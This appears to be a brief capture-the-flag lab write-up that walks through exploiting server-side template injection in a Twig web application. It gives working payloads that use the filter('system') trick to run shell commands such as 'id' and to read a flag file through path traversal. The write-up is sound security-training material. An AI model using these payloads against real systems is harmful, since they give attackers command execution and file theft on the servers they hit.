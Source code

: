 # Exploiting SSTI - Twig

Exploit the SSTI vulnerability to obtain RCE and read the flag.

In this exercise the web application is running the Twig template engine, so lets focus on its specific payloads to retrieve the flag.

<figure><img src="../../../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

Lets try to get some information with this payload:

```twig
{{ _self }}
```

<figure><img src="../../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

And its working! Now lets work on the payload.

Lets try to use the PHP built-in function `system`:

```twig
{{ ['id'] | filter('system') }}
```

<figure><img src="../../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

As we can see we manage to execute the `id` command on the webserver. Now all we have to do is to work on the payload to retrieve the flag. We can use this one:

```twig
{{ ['cat ../../../flag.txt'] | filter('system') }}
```

<figure><img src="../../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

And we did it!
